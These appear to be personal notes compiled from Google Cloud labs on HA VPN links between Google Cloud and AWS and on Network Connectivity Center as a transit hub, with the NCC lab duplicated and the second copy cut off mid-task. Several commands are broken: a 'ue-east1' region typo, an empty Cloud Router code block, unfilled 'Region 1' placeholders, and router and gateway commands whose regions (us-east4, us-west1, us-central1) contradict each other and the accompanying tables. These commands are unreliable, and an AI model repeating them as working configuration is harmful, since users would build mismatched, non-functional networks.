**Note:** You can view the menu with a list of Google Cloud Products and Services by clicking the **Navigation menu** at the top-left. 

#### Challenge scenario

Headquartered in Minneapolis, Minnesota, Cymbal currently employs 775,000 people across the world and reported 192 billion US dollars in revenue in 2019.

Cymbal has always been strongly committed to innovation, uncovering meaningful ways to transform industries and deliver better experiences for its customers. Cymbal’s branded businesses span multiple sectors including manufacturing, financial services, media, healthcare, retail, aviation, and education.

Cymbal Group has been rapidly making the transition to a cloud-first operating model. Cymbal Bank, Superstore, and other Cymbal Group assets have all been adopting Google Cloud as part of their technology strategy. Recognizing the need for a multi-cloud architecture, the CIO of Cymbal Group has mandated a standard architecture for all new services, sharing a common network foundation that is based on Google Cloud and AWS.

#### Your challenge

As a network architect employed at Cymbal Group, you have been asked to create highly available VPN connections between Google Cloud and Amazon Web Services (AWS) for direct communication between VPC networks across the two cloud platforms.

#### Task 1. Create the highly available VPN gateway and configure Cloud Router on Google Cloud

Create a VPC network, a highly available VPN gateway, and configure the Cloud Router service on Google Cloud.

1. Create a custom VPC network `cymbal-cloud-vpc` with a single subnet `cymbal-cloud-subnet` in the `us-east1` region.

   ```
   gcloud compute networks create cymbal-cloud-vpc \
       --subnet-mode custom \
       --bgp-routing-mode global
   ```

   ```
   gcloud compute networks subnets create cymbal-cloud-subnet \
       --network cymbal-cloud-vpc \
       --region us-east1 \
       --range 10.1.1.0/24
   ```

2. Create the highly available VPN gateway `cymbal-cloud-ha-vpn-gw` in the network `cymbal-cloud-vpc`.

   ```
   gcloud compute vpn-gateways create cymbal-cloud-ha-vpn-gw \
       --network cymbal-cloud-vpc \
       --region ue-east1
   ```
   
3. Create a Cloud Router service asset named `cymbal-cloud-router` in the `us-east1` region.

   ```
```


Create the highly available VPN gateway and configure Cloud Router on Google Cloud


Check my progress

#### Task 2. Create gateways and VPN connections on AWS

Create customer gateways, a target gateway, and VPN connections with dynamic routing.

1. Configure the AWS command-line interface (CLI).
   - Connect to the Google Compute Engine virtual machine (VM) named `lab-setup` via SSH.
   - Type `aws configure`.
   - Follow the steps and enter the AWS Access Key ID and AWS Secret Access Key displayed in the lab user information panel.
   - For the region, select **us-east-1**.
2. Create two customer gateways.
3. Create a **virtual private gateway** as a target gateway and attach it to to your pre-created VPC network `CymbalAdVpc` on AWS side.
4. Create two VPN connections with dynamic routing.

Create gateways and VPN connections on AWS


Check my progress

#### Task 3. Create VPN tunnels and Cloud Router interfaces on Google Cloud

Use the information from the AWS VPN connections that you created in the previous tasks to create and configure components on Google Cloud.

1. Create an external VPN gateway with four interfaces for the AWS externally-facing IP addresses.
2. Create four VPN tunnels.
3. Create four interfaces to Cloud Router.
4. Add border gateway protocol (BGP) peers.

Create VPN tunnels and Cloud Router interfaces on Google Cloud


Check my progress

#### Task 4. Verify the configuration

Verify the router and tunnel configuration.

Check the tunnel status using the following code:

```
GET_TUNNEL_1=$(gcloud compute vpn-tunnels list --format='value[](NAME)'|head -1) && \
  gcloud compute vpn-tunnels describe $GET_TUNNEL_1 \
       --region us-east1 \
       --format='flattened(status,detailedStatus)'
```


You should receive a status of **ESTABLISHED**.

Verify the configuration


Check my progress

#### Congratulations!

You have successfully created highly available VPN connections between Google Cloud and Amazon Web Services.


### LAB - Configuring Network Connectivity Center as a Transit Hub

#### Overview

Network Connectivity Center (NCC) enables connecting different enterprise networks together that are outside of Google Cloud by leveraging Google's network—providing enterprises instant access to planet-scale reach and high reliability. Traffic between non-Google networks is referred to as data transfer traffic, which can occur using existing standard cloud network connectivity resources such as Cloud VPN, Dedicated or Partner Interconnect.

In this lab, you will go through the process of setting up NCC as a transit hub to route traffic between two non-Google networks using Google's backbone network.

#### Architecture

NCC consists of hub and spoke resources.

**Hub**

A hub is a global Google Cloud resource that supports multiple attached spokes. It provides a simple way to connect spokes together to enable data transfer across them. A hub can provide data transfer between different on-premises locations and a Virtual Private Cloud (VPC) network through its attached spokes.

**Spoke**

A spoke is a Google Cloud network resource connected to a hub. It is part of the hub, and can't be created without creating the hub first. A spoke routes traffic to remote network address blocks and enables the connection of multiple remote networks.

Spokes can be of one of the following types:

- HA VPN tunnels
- VLAN attachments
- Router appliance instances that you or select partners deploy within Google Cloud

The following network topology is similar to a typical customer deployment having branch offices located in two geographically separate locations. For this lab, you are simulating two VPCs *vpc-a*, and *vpc-b* in `Region 1`, and `Region 2` as the branch offices respectively.

The branch offices are connected to a VPC, *vpc-transit*, which is a central hub terminating a pair of HA VPNs. These VPNs are configured in a region closest to the branch offices. In the real world, these VPNs could be replaced using Interconnects.

You will configure the NCC hub in the *vpc-transit* network, and the two remote branch offices will be connected using the HA VPN tunnels as spokes.


In this lab, you will achieve the following objectives:

1. Create a hub VPC called *vpc-transit*.
2. Create two remote branch office VPCs namely *vpc-a* and *vpc-b*.
3. Create HA VPN from *vpa-a* to *vpc-transit*, and *vpc-b* to *vpc-transit*.
4. Create a NCC hub resource and attach the HA VPNs as spokes.
5. Test the setup end to end deploying VMs in the remote branch office VPCs.

#### Prerequisites

- Basic knowledge of Google VPC Networking, and Compute Engine.
- It is helpful to have completed the [Networking 101](https://google.qwiklabs.com/catalog_lab/311) and [VPC Networking: Cloud HA-VPN](https://www.qwiklabs.com/focuses/6270?parent=catalog) labs.

#### Task 1. Create vpc-transit

1. In the Google Cloud Console, in the top-right toolbar, click the **Activate Cloud Shell** button and run the following command to delete the **default** network.


```
gcloud compute networks delete default
```


1. In the Google Cloud Console, from the **Navigation Menu ()**, go to **VPC network**.
2. Click **CREATE VPC NETWORK**.
3. Enter a Name for the network: **vpc-transit**.
4. You do not need to create a subnet for the *vpc-transit* so click **Delete** next to New Subnet.
5. Choose the Dynamic routing mode for the VPC network as **Global**.

**Note:** Learn more about dynamic routing from the [dynamic routing mode documentation](https://cloud.google.com/vpc/docs/vpc#routing_for_hybrid_networks).

1. Click **Create**.

Click *Check my progress* to verify the objective.

Create vpc-transit network


Check my progress


#### Task 2. Create remote branch office VPCs

1. In the Google Cloud Console, from the **Navigation menu**, go to the **VPC network**.
2. Click **CREATE VPC NETWORK**.
3. Enter a Name for the network as **vpc-a**.
4. Choose **Custom** for the Subnet creation mode.
5. In the New subnet section, specify the following configuration parameters for a subnet:
   - Name for the subnet: **vpc-a-sub1-use4**.
   - Region: **`Region 1`**.
   - IP address range **10.20.10.0/24**. This is the primary IP range for the subnet.
6. Click **Done**.
7. Choose the Dynamic routing mode for the VPC network as **Regional**.
8. Click **Create**.
9. To add the second remote branch office VPC, click **CREATE VPC NETWORK**.
10. Enter a Name for the network as **vpc-b**.
11. Choose **Custom** for the Subnet creation mode.
12. In the New subnet section, specify the following configuration parameters for a subnet:
13. Provide a Name for the subnet as **vpc-b-sub1-usw2**.
14. Select Region as **`Region 2`**.
15. Enter an IP address range **10.20.20.0/24**.
16. Click **Done**.
17. Choose the Dynamic routing mode for the VPC network as **Regional**.
18. Click **Create**.

Now you should be able to view all 3 VPCs in the VPC networks console like this:



Click *Check my progress* to verify the objective.

Create remote branch office VPCs namely vpc-a and vpc-b


Check my progress


#### Task 3. Configure HA VPN between the remote branch office VPCs and the transit hub VPC

**Note:** In this lab you are simulating the remote branch offices as Google Cloud VPCs, therefore using the steps listed to [Create HA VPN between Google Cloud Networks](https://cloud.google.com/network-connectivity/docs/vpn/how-to/creating-ha-vpn2).


For any practical implementation, you may replace the steps listed below with the steps for [Creating an HA VPN gateway to a peer VPN gateway](https://cloud.google.com/network-connectivity/docs/vpn/how-to/creating-ha-vpn) if you are using HA VPNs to connect to your branch offices.

In this section you will configure an HA VPN between the remote branch office VPCs (*vpc-a* and *vpc-b*) and the transit hub VPC (*vpc-transit*). HA VPN uses BGP for dynamically exchanging routes between Google Cloud and the peer network. Before configuring the HA VPNs, you need to create Cloud Routers associated with each VPC network.

**Note:** Learn more about Cloud Routers [in the Cloud Router overview documentation](https://cloud.google.com/network-connectivity/docs/router/concepts/overview).

##### **Step 1: Create cloud routers**

To create a new Cloud Router for each VPC, specify the following:

1. In the Cloud Console, from the **Navigation menu**, go to **Network Connectivity** and select **Cloud Routers**.
2. Click **Create router**.
3. Enter name as **cr-vpc-transit-use4-1**.
4. Select the network as **vpc-transit**.
5. Select the region as **`Region 1`**.
6. Enter the **ASN** as **65000**.
7. Select **Advertise all subnets visible to the Cloud Router (Default)**.
8. Click **Create**.
9. Use the steps mentioned above to create additional cloud routers using the following details:

| **Cloud Router name**   | **VPC Network** | **Region** | **Google ASN** |
| ----------------------- | --------------- | ---------- | -------------- |
| *cr-vpc-transit-usw2-1* | vpc-transit     | `Region 2` | 65000          |
| *cr-vpc-a-use4-1*       | vpc-a           | `Region 1` | 65001          |
| *cr-vpc-b-usw2-1*       | vpc-b           | `Region 2` | 65002          |

##### **Step 2: Create HA VPN gateways**

Create an HA VPN gateway in the *vpc-transit* network for `Region 1` region, using the following steps:

1. From the **Navigation menu**, go to **Network Connectivity** and select **VPN**.
2. Click **Create VPN connection**.
3. Select **High-availability (HA) VPN**.
4. Click **Continue**.
5. Specify a VPN gateway name as **vpc-transit-gw1-use4**.
6. Under the VPC network, select **vpc-transit**.
7. Select a Region as **`Region 1`**.
8. Click **Create and continue**.

**Note:** Before adding VPN tunnels, you need to create additional VPN gateways.

1. From the VPN page, select **Cloud VPN Gateways**.
2. Click **Create VPN gateway** and enter the following details to create the additional VPN gateways:

| **VPN gateway name**   | **VPC Network** | **Region** |
| ---------------------- | --------------- | ---------- |
| *vpc-transit-gw1-usw2* | vpc-transit     | `Region 2` |
| *vpc-a-gw1-use4*       | vpc-a           | `Region 1` |
| *vpc-b-gw1-usw2*       | vpc-b           | `Region 2` |

Click *Check my progress* to verify the objective.

Create cloud routers and HA VPN gateways


Check my progress


##### **Step 3: Create a pair of VPN tunnels between vpc-transit to vpc-a**

###### Add VPN tunnels from vpc-transit to vpc-a

Create a pair of VPN tunnels using the following steps:

1. From the VPN page, click on **Cloud VPN Gateways** and select **vpc-transit-gw1-use4**.
2. Click to **Add VPN tunnel**.
3. For the Peer VPN Gateway, select **Google Cloud VPN Gateways**.
4. Select the **Project Id** associated with the lab.
5. Select the remote VPN gateway, **vpc-a-gw1-use4**.
6. For high availability, select **Create a pair of VPN tunnels**.
7. Select the Cloud Router **cr-vpc-transit-use4-1**.
8. Click on the VPN tunnel to enter the tunnel details:
   - The Cloud VPN and the associated peer VPN gateway interface information should be pre-populated
   - Name: **transit-to-vpc-a-tu1**
   - IKE version: IKEv2
   - IKE pre-shared key: **gcprocks**
9. Click **Done**.
10. Repeat steps for the second tunnel:
    - Name: **transit-to-vpc-a-tu2**
    - IKE version: IKEv2
    - IKE pre-shared key: **gcprocks**
11. Click **Done**.
12. Click **Create & Continue**.

###### Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-a

The next step is to configure BGP session for the VPN tunnel *transit-to-vpc-a-tu1*

1. Click

    

   Configure BGP Session for transit-to-vpc-a-tu1

   :

   - BGP session name: **transit-to-vpc-a-bgp1**
   - Peer ASN: **65001**
   - Allocate BGP IPv4 address: *Manually*
   - Cloud Router BGP IPv4 address: **169.254.1.1**
   - BGP peer IPv4 address: **169.254.1.2**

2. Click **Save and continue**.

- Repeat steps to configure BGP session for the VPN tunnel *transit-to-vpc-a-tu2*.

1. Click **Configure BGP Session for transit-to-vpc-a-tu2**:

- BGP session name: **transit-to-vpc-a-bgp2**
- Peer ASN: **65001**
- Allocate BGP IPv4 address: *Manually*
- Cloud Router BGP IPv4 address: **169.254.1.5**
- BGP peer IPv4 address: **169.254.1.6**

1. Click **Save and continue**.
2. Click on **Save BGP configuration**.
3. Click **OK**.

###### Add VPN tunnels from vpc-a to vpc-transit

Now create a pair of VPN tunnels from the *vpc-a* to *vpc-transit* to complete the bidirectional tunnel configuration using the following steps:

1. From the VPN page, select **Cloud VPN Gateways** *vpc-a-gw1-use4*:
2. Click to **Add VPN tunnel**.
3. For the Peer VPN Gateway, select **Google Cloud VPN Gateways**.
4. Select the **Project Id** associated with the lab.
5. Select the remote VPN gateway, **vpc-transit-gw1-use4**
6. For high availability, select **Create a pair of VPN tunnels**.
7. Select the Cloud Router, **cr-vpc-a-use4-1**
8. Click on the VPN tunnel to enter the tunnel details:
   - The Cloud VPN and peer VPN gateway interface information should be pre-populated.
   - Name: **vpc-a-to-transit-tu1**
   - IKE version: IKEv2
   - IKE pre-shared key: **gcprocks**
9. Click **Done**.
10. Repeat steps for the second tunnel:
    - Name: **vpc-a-to-transit-tu2**
    - IKE version: IKEv2
    - IKE pre-shared key: **gcprocks**
11. Click **Done**.
12. Click **Create & Continue**.

###### Add BGP sessions for each VPN tunnel configured from vpc-a to vpc-transit

The next step is to configure BGP session for the VPN tunnel: *transit-to-vpc-a-tu1*

1. Click

    

   Configure BGP Session for vpc-a-to-transit-tu1

   - BGP session name: **vpc-a-to-transit-bgp1**
   - Peer ASN: **65000**
   - Allocate BGP IPv4 address: *Manually*
   - Cloud Router BGP IPv4 address: **169.254.1.2**
   - BGP peer IPv4 address: **169.254.1.1**

2. Click **Save and continue**.

Repeat steps to configure BGP session for the VPN tunnel: *transit-to-vpc-a-tu2*

1. Click

    

   Configure BGP Session for vpc-a-to-transit-tu2

   - BGP session name: **vpc-a-to-transit-bgp2**
   - Peer ASN: **65000**
   - Allocate BGP IPv4 address: *Manually*
   - Cloud Router BGP IPv4 address: **169.254.1.6**
   - BGP peer IPv4 address: **169.254.1.5**

2. Click **Save and continue**.

3. Click on **Save BGP configuration**.

4. Click **OK**.

Once this step is complete the VPN tunnel status should reflect *Established* and BGP status should reflect *BGP established*.

##### **Step 4: Create a pair of VPN tunnels between vpc-transit to vpc-b**

- Repeat steps listed above (step 3) to create the bidirectional HA VPN tunnels between the vpc-transit and vpc-b networks using the details below.

###### Add VPN tunnels from vpc-transit to vpc-b

| Peer VPN gateway name | *vpc-b-gw1-usw2*        |
| --------------------- | ----------------------- |
| Cloud Router          | *cr-vpc-transit-usw2-1* |
| VPN tunnel one        | *transit-to-vpc-b-tu1*  |
| Pre-shared key        | *gcprocks*              |
| VPN tunnel two        | *transit-to-vpc-b-tu2*  |
| Pre-shared key        | *gcprocks*              |

###### Add BGP sessions for each VPN tunnel configured from vpc-transit to vpc-b

BGP session for tunnel *transit-to-vpc-b-tu1* :

| BGP session                   | *transit-to-vpc-b-bgp1* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65002*                 |
| Cloud Router BGP IPv4 address | 169.254.1.9             |
| BGP peer IPv4 address         | 169.254.1.10            |

BGP session for tunnel *transit-to-vpc-b-tu2* :

| BGP session                   | *transit-to-vpc-b-bgp2* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65002*                 |
| Cloud Router BGP IPv4 address | 169.254.1.13            |
| BGP peer IPv4 address         | 169.254.1.14            |

###### Add VPN tunnels from vpc-b to vpc-transit

| Peer VPN gateway name | *vpc-transit-gw1-usw2* |
| --------------------- | ---------------------- |
| Cloud Router          | *cr-vpc-b-usw2-1*      |
| VPN tunnel one        | *vpc-b-to-transit-tu1* |
| Pre-shared key        | *gcprocks*             |
| VPN tunnel second     | *vpc-b-to-transit-tu2* |
| Pre-shared key        | *gcprocks*             |

###### Add BGP sessions for each VPN tunnel configured from vpc-b to vpc-transit

BGP session for tunnel *vpc-b-to-transit-tu1* :

| BGP session                   | *vpc-b-to-transit-bgp1* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65000*                 |
| Cloud Router BGP IPv4 address | 169.254.1.10            |
| BGP peer IPv4 address         | 169.254.1.9             |

BGP session for tunnel *vpc-b-to-transit-tu2* :

| BGP session                   | *vpc-b-to-transit-bgp2* |
| ----------------------------- | ----------------------- |
| Peer ASN                      | *65000*                 |
| Cloud Router BGP IPv4 address | 169.254.1.14            |
| BGP peer IPv4 address         | 169.254.1.13            |

##### **Step 5: Verify the all the VPN connections status from the VPN page**

- Scroll down the page to confirm that all connections are good.


Click *Check my progress* to verify the objective.

Create a pair of VPN tunnels between vpc-transit to vpc-a and vpc-b


Check my progress


### Task 4. Create NCC hub resources and attach the HA VPNs as spokes

In this section you will create a VPC and create 2 subnets inside that VPC. This will all be done using gcloud CLI commands inside Google Cloud Shell.

Before you can perform any tasks for Network Connectivity Center, you must enable the Network Connectivity API.

1. From the **Navigation Menu**, search for **API & Services**.
2. Click on **Library**, and search for **Network Connectivity API**.
3. Select the **Network Connectivity API**.


1. Click **Enable**.
2. In this lab `gcloud` commands are used to configure the Network Connectivity Center. In order to authorize Cloud Shell to run the gcloud commands, open the Google Cloud Shell by clicking **Activate Cloud Shell**().
3. Run the following command to list the active account name:

```
gcloud auth list
```


1. Click **Authorize**.

#### Step 1: Create NCC hub

- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:

```
gcloud alpha network-connectivity hubs create transit-hub \
   --description=Transit_hub
```


#### Step 2: Create the spoke for branch office 1

- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents:

```
gcloud alpha network-connectivity spokes create bo1 \
    --hub=transit-hub \
    --description=branch_office1 \
    --vpn-tunnel=transit-to-vpc-a-tu1,transit-to-vpc-a-tu2 \
    --region=Region 1
```


#### Step 3: Create the spoke for branch office 2

- You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.

```
gcloud alpha network-connectivity spokes create bo2 \
    --hub=transit-hub \
    --description=branch_office2 \
    --vpn-tunnel=transit-to-vpc-b-tu1,transit-to-vpc-b-tu2 \
    --region=Region 2
```


Click *Check my progress* to verify the objective.

Create NCC hub resources and attach the HA VPNs as spokes


Check my progress


### Task 5. Test the setup end to end deploying VMs in the remote branch office VPCs

After configuring the hub and its spokes, you should be able to pass traffic from the virtual machine (VM) instance in *branch office1* to the VM instance in *branch office2*. To do this, create a *vpc-a-vm-1* in *vpc-a* and vpc-b-vm-1 in *vpc-b* respectively.

First, create firewall rules: *fw-a* for *vpc-a-vm-1* in *vpc-a-sub1-use4* subnet and *fw-b* for *vpc-b-vm-1* in *vpc-b-sub1-usw2* subnet respectively to allow ingress SSH and ICMP traffic.


#### Step 1: Create Firewall rule for vpc-a

1. In the Cloud Platform Console, click **Navigation menu** () at the top left of the screen.
2. Then navigate to **VPC network** > **Firewall**.
3. Click on **CREATE FIREWALL RULE** and specify the details as shown.

 

1. Similarly, create firewall rule **fw-b** for **vpc-b**.

#### Step 2: Create VM in vpc-a

1. In the **Cloud console**, on the **Navigation menu** (☰), click **Compute Engine** > **VM Instances**, then click **Create instance**.

**Note:** This may take a minute to initialize for the first time.

There are many parameters you can configure when creating a new instance. Use the following for this lab:

1. In the **Machine configuration**

   Enter the values for the following fields:

   | Field       | Value        |
   | :---------- | :----------- |
   | **Name**    | `vpc-a-vm-1` |
   | **Region**  | `<Region 1>` |
   | **Zone**    | `<Zone 1>`   |
   | **Series**  | `E2`         |
   | **Machine** | `e2-medium`  |

2. Click **OS and storage**

   Click **Change** to begin configuring your boot disk and select the values for:

   | Field                | Value                                   |
   | :------------------- | :-------------------------------------- |
   | **Operating system** | `Debian`                                |
   | **Version**          | `Debian GNU/Linux 11 (bullseye) x86/64` |
   | **Boot disk type**   | `balanced persistent disk`              |
   | **Size (GB)**        | `10 GB`                                 |

3. Click **Networking**

   - Network interfaces

      

     : click on

      

```
     default
     ```


​      

     to edit.
    
     - **Network**: `vpc-a`
     - **Subnetwork**: `vpc-a-sub1-use4`

4. Once all sections are configured, scroll down and click **Create** to launch your virtual machine instance.

**Note:** The instance creation process is asynchronous. You can check on the status of the task using the top right-hand side **Activities** icon. Wait for it to finish - it shouldn't take more than a minute.

**Note:** If you receive an error when creating a VM, click into **Details**. Most likely you need to try again with a different zone.

Once finished, you should see the new virtual machine in the **VM Instances** page.

Similarly, create another VM in **vpc-b** using the following parameters:

1. In the **Machine configuration**

   Enter the values for the following fields:

   | Field       | Value        |
   | :---------- | :----------- |
   | **Name**    | `vpc-b-vm-1` |
   | **Region**  | `<Region 2>` |
   | **Zone**    | `<Zone 2>`   |
   | **Series**  | `E2`         |
   | **Machine** | `e2-medium`  |

2. Click **OS and storage**

   Click **Change** to begin configuring your boot disk and select the values for:

   | Field                | Value                                   |
   | :------------------- | :-------------------------------------- |
   | **Operating system** | `Debian`                                |
   | **Version**          | `Debian GNU/Linux 11 (bullseye) x86/64` |
   | **Boot disk type**   | `balanced persistent disk`              |
   | **Size (GB)**        | `10 GB`                                 |

3. Click **Networking**

   - Network interfaces

      

     : click on

      

     ```
     default
     ```

      

     to edit.

     - **Network**: `vpc-b`
     - **Subnetwork**: `vpc-b-sub1-usw2`

4. Once all sections are configured, scroll down and click **Create** to launch your virtual machine instance.

Once finished, you should see the two virtual machines in the **VM Instances** page.

1. Copy the internal IP of **vpc-b-vm-1**.


Click *Check my progress* to verify the objective.

Create VMs in the remote branch office VPCs


Check my progress


#### Step 3: Run the ping command and verify connectivity to bo2 via NCC transit

To verify the end to end connectivity, run a ping test between *vpc-a-vm-1* and *vpc-b-vm-1* using the following steps:

1. SSH into **vpc-a-vm-1** by clicking on **SSH** on the right hand side of vpc-a-vm-1. This launches a SSH client directly from your browser.

**Note:** You can also SSH into the virtual machine. Learn more about SSH from the [Connect to an instance using ssh documentation](https://cloud.google.com/compute/docs/instances/connecting-to-instance).


1. Run a ping test from **vpc-a-vm-1** to the internal IP of **vpc-b-vm-1**.
2. You can click on the "clipboard" icon in the upper right corner of the text box to copy the contents.

```
ping -c 5 <INTERNAL_IP_OF_VPC-B-VM-1>
```




#### Congratulations!

This completes our lab for the Network Connectivity Center as a Transit hub with HA VPNs as spokes.


### Configuring Network Connectivity Center as a Transit Hub

#### Overview

Network Connectivity Center (NCC) enables connecting different enterprise networks together that are outside of Google Cloud by leveraging Google's network—providing enterprises instant access to planet-scale reach and high reliability. Traffic between non-Google networks is referred to as data transfer traffic, which can occur using existing standard cloud network connectivity resources such as Cloud VPN, Dedicated or Partner Interconnect.

In this lab, you will go through the process of setting up NCC as a transit hub to route traffic between two non-Google networks using Google's backbone network.

#### Architecture

NCC consists of hub and spoke resources.

**Hub**

A hub is a global Google Cloud resource that supports multiple attached spokes. It provides a simple way to connect spokes together to enable data transfer across them. A hub can provide data transfer between different on-premises locations and a Virtual Private Cloud (VPC) network through its attached spokes.

**Spoke**

A spoke is a Google Cloud network resource connected to a hub. It is part of the hub, and can't be created without creating the hub first. A spoke routes traffic to remote network address blocks and enables the connection of multiple remote networks.

Spokes can be of one of the following types:

- HA VPN tunnels
- VLAN attachments
- Router appliance instances that you or select partners deploy within Google Cloud

The following network topology is similar to a typical customer deployment having branch offices located in two geographically separate locations. For this lab, you are simulating two VPCs *vpc-a*, and *vpc-b* in `us-central1`, and `us-west2` as the branch offices respectively.

The branch offices are connected to a VPC, *vpc-transit*, which is a central hub terminating a pair of HA VPNs. These VPNs are configured in a region closest to the branch offices. In the real world, these VPNs could be replaced using Interconnects.

You will configure the NCC hub in the *vpc-transit* network, and the two remote branch offices will be connected using the HA VPN tunnels as spokes.


In this lab, you will achieve the following objectives:

1. Create a hub VPC called *vpc-transit*.
2. Create two remote branch office VPCs namely *vpc-a* and *vpc-b*.
3. Create HA VPN from *vpa-a* to *vpc-transit*, and *vpc-b* to *vpc-transit*.
4. Create a NCC hub resource and attach the HA VPNs as spokes.
5. Test the setup end to end deploying VMs in the remote branch office VPCs.

#### Prerequisites

- Basic knowledge of Google VPC Networking, and Compute Engine.
- It is helpful to have completed the [Networking 101](https://google.qwiklabs.com/catalog_lab/311) and [VPC Networking: Cloud HA-VPN](https://www.qwiklabs.com/focuses/6270?parent=catalog) labs.

#### Task 1. Create vpc-transit

1. In the Google Cloud Console, in the top-right toolbar, click the **Activate Cloud Shell** button and run the following command to delete the **default** network.


```
gcloud compute networks delete default
```


1. In the Google Cloud Console, from the **Navigation Menu ()**, go to **VPC network**.
2. Click **CREATE VPC NETWORK**.
3. Enter a Name for the network: **vpc-transit**.
4. You do not need to create a subnet for the *vpc-transit* so click **Delete** next to New Subnet.
5. Choose the Dynamic routing mode for the VPC network as **Global**.

**Note:** Learn more about dynamic routing from the [dynamic routing mode documentation](https://cloud.google.com/vpc/docs/vpc#routing_for_hybrid_networks).

1. Click **Create**.

Click *Check my progress* to verify the objective.

Create vpc-transit network


Check my progress


#### Task 2. Create remote branch office VPCs

1. In the Google Cloud Console, from the **Navigation menu**, go to the **VPC network**.
2. Click **CREATE VPC NETWORK**.
3. Enter a Name for the network as **vpc-a**.
4. Choose **Custom** for the Subnet creation mode.
5. In the New subnet section, specify the following configuration parameters for a subnet:
   - Name for the subnet: **vpc-a-sub1-use4**.
   - Region: **`us-central1`**.
   - IP address range **10.20.10.0/24**. This is the primary IP range for the subnet.
6. Click **Done**.
7. Choose the Dynamic routing mode for the VPC network as **Regional**.
8. Click **Create**.
9. To add the second remote branch office VPC, click **CREATE VPC NETWORK**.
10. Enter a Name for the network as **vpc-b**.
11. Choose **Custom** for the Subnet creation mode.
12. In the New subnet section, specify the following configuration parameters for a subnet:
13. Provide a Name for the subnet as **vpc-b-sub1-usw2**.
14. Select Region as **`us-west2`**.
15. Enter an IP address range **10.20.20.0/24**.
16. Click **Done**.
17. Choose the Dynamic routing mode for the VPC network as **Regional**.
18. Click **Create**.

Now you should be able to view all 3 VPCs in the VPC networks console like this:


Click *Check my progress* to verify the objective.

Create remote branch office VPCs namely vpc-a and vpc-b


Check my progress


#### Task 3. Configure HA VPN between the remote branch office VPCs and the transit hub VPC

**Note:** In this lab you are simulating the remote branch offices as Google Cloud VPCs, therefore using the steps listed to [Create HA VPN between Google Cloud Networks](https://cloud.google.com/network-connectivity/docs/vpn/how-to/creating-ha-vpn2).


For any practical implementation, you may replace the steps listed below with the steps for [Creating an HA VPN gateway to a peer VPN gateway](https://cloud.google.com/network-connectivity/docs/vpn/how-to/creating-ha-vpn) if you are using HA VPNs to connect to your branch offices.

In this section you will configure an HA VPN between the remote branch office VPCs (*vpc-a* and *vpc-b*) and the transit hub VPC (*vpc-transit*). HA VPN uses BGP for dynamically exchanging routes between Google Cloud and the peer network. Before configuring the HA VPNs, you need to create Cloud Routers associated with each VPC network.

**Note:** Learn more about Cloud Routers [in the Cloud Router overview documentation](https://cloud.google.com/network-connectivity/docs/router/concepts/overview).

##### **Step 1: Create cloud routers**

To create a new Cloud Router for each VPC, specify the following:

1. In the Cloud Console, from the **Navigation menu**, go to **Network Connectivity** and select **Cloud Routers**.
2. Click **Create router**.
3. Enter name as **cr-vpc-transit-use4-1**.
4. Select the network as **vpc-transit**.
5. Select the region as **`us-central1`**.
6. Enter the **ASN** as **65000**.
7. Select **Advertise all subnets visible to the Cloud Router (Default)**.
8. Click **Create**.
9. Use the steps mentioned above to create additional cloud routers using the following details:

| **Cloud Router name**   | **VPC Network** | **Region**    | **Google ASN** |
| ----------------------- | --------------- | ------------- | -------------- |
| *cr-vpc-transit-usw2-1* | vpc-transit     | `us-west2`    | 65000          |
| *cr-vpc-a-use4-1*       | vpc-a           | `us-central1` | 65001          |
| *cr-vpc-b-usw2-1*       | vpc-b           | `us-west2`    | 65002          |

```
gcloud compute routers create cr-vpc-transit-use4-1 \
    --region us-east4 \
    --network vpc-transit \
    --asn 65000

gcloud compute routers create cr-vpc-transit-usw2-1 \
    --region us-west2 \
    --network vpc-transit \
    --asn 65000


gcloud compute routers create cr-vpc-a-use4-1 \
    --region us-east4 \
    --network vpc-a \
    --asn 65001


gcloud compute routers create cr-vpc-b-usw2-1 \
    --region us-west2 \
    --network vpc-b \
    --asn 65002
```


##### **Step 2: Create HA VPN gateways**

Create an HA VPN gateway in the *vpc-transit* network for `us-central1` region, using the following steps:

1. From the **Navigation menu**, go to **Network Connectivity** and select **VPN**.
2. Click **Create VPN connection**.
3. Select **High-availability (HA) VPN**.
4. Click **Continue**.
5. Specify a VPN gateway name as **vpc-transit-gw1-use4**.
6. Under the VPC network, select **vpc-transit**.
7. Select a Region as **`us-central1`**.
8. Click **Create and continue**.

**Note:** Before adding VPN tunnels, you need to create additional VPN gateways.

1. From the VPN page, select **Cloud VPN Gateways**.
2. Click **Create VPN gateway** and enter the following details to create the additional VPN gateways:

| **VPN gateway name**   | **VPC Network** | **Region**    |
| ---------------------- | --------------- | ------------- |
| *vpc-transit-gw1-usw2* | vpc-transit     | `us-west2`    |
| *vpc-a-gw1-use4*       | vpc-a           | `us-central1` |
| *vpc-b-gw1-usw2*       | vpc-b           | `us-west2`    |

```
gcloud compute vpn-gateways create vpc-transit-gw1-use4 \
   --network=vpc-transit \
   --region=us-west1 


gcloud compute vpn-gateways create vpc-transit-gw1-usw2 \
   --network=vpc-transit \
   --region=us-central1


gcloud compute vpn-gateways create vpc-a-gw1-use4 \
   --network=vpc-a \
   --region=us-west1 

gcloud compute vpn-gateways create vpc-b-gw1-usw2 \
   --network=vpc-b \
   --region=us-central1
```


Click *Check my progress* to verify the objective.

Create cloud routers and HA VPN gateways


Check my progress


##### **Step 3: Create a pair of VPN tunnels between vpc-transit to vpc-a**

###### Add VPN tunnels from vpc-transit to vpc-a

Create a pair of VPN tunnels using the following steps:

1. From the VPN page, click on **Cloud VPN Gateways** and select **vpc-transit-gw1-use4**.
2. Click to **Add VPN tunnel**.
3. For the Peer VPN Gateway, select **Google Cloud VPN Gateways**.
4. Select the **Project Id** associated with the lab.
5. Select the remote VPN gateway, **vpc-a-gw1-use4**.
6. For high availability, select **Create a pair of VPN tunnels**.
7. Select the Cloud Router **cr-vpc-transit-use4-1**.
8. Click on the VPN tunnel to enter the tunnel details:
   - The Cloud VPN and the associated peer VPN gateway interface information should be pre-populated
   - Name: **transit-to-vpc-a-tu1**
   - IKE version: IKEv2
   - IKE pre-shared key: **gcprocks**
9. Click **Done**.
10. Repeat steps for the second tunnel:
    - Name: **transit-to-vpc-a-tu2**
    - IKE version: IKEv2
    - IKE pre-shared key: **gcprocks**
11. Click **Done**.
